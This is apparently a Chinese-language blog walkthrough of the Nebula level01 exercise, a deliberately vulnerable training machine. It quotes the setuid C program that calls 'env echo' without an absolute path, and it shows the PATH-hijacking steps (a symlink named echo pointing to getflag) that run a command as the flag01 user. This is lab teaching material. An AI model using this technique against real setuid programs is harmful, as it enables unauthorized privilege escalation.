 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level01"
date: 2014-01-09 14:54:40 +0800
comments: true
categories:
- Security
- Exercises
- Nebula
---
```


有了level00的铺垫，level01就非常简单直接了。感觉上Nebula系列的基本要求是用levelXX用户登录，通过放在/home/flagXX目录下的可执行程序来获得flagXX的用户权限，对于level01而言，可执行程序为/home/flag01/flag01，其源代码在网站上给出了：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

<!-- more --> 

前边代码的作用在上一篇博客中提到了，为了使当前的effective uid为flag01，所以system这一句是以flag01这个user的权限执行的。通过/usr/bin/env程序执行了echo程序，在屏幕上打印“and now what？”，不过在执行echo这个命令的时候没有使用绝对路径，使得通过修改$PATH来执行任意程序成为了可能。在本例中，通过修改$PATH和重定向来直接以flag01用户执行/bin/getflag程序：

``` bash
~ $ export PATH=/home/level01:$PATH
~ $ ln -s /bin/getflag /home/level01/echo
~ $ /home/flag01/flag01
You have successfully executed getflag on a target account
```

这样就可以了。通过重定向其他程序为/home/level01/echo，可以用flag01用户执行任意程序。